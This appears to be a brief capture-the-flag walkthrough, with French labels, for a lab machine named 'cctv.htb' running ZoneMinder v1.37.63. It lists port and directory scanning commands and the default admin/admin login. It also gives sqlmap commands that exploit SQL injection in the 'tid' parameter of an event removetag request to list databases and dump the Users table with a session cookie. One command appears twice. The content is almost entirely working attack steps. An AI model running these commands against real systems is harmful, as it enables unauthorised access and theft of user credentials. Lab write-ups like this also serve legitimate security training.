



```
 nmap -sC -sV 10.129.30.183 
```



```
 ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://cctv.htb/FUZZ -ic
 
  gobuster dir -u http://cctv.htb/ -w /usr/share/wordlists/dirb/common.txt
```



ZoneMinder default credentials 
**admin/admin**



Version de Zoneminder :  **v1.37.63**

```
sqlmap -u "http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1" --cookie="ZMSESSID=g4l0d23jcepvfmrpkpdnt0fm5m" -p tid --dbms=mysql --batch --dbs

```

```
sqlmap -u "http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1" --cookie="ZMSESSID=g4l0d23jcepvfmrpkpdnt0fm5m" -p tid --dbms=mysql --batch -D zm -T Users --dump

```

```
sqlmap -u "http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1" --cookie="ZMSESSID=g4l0d23jcepvfmrpkpdnt0fm5m" -p tid --dbms=mysql --batch -D zm -T Users --dump

```
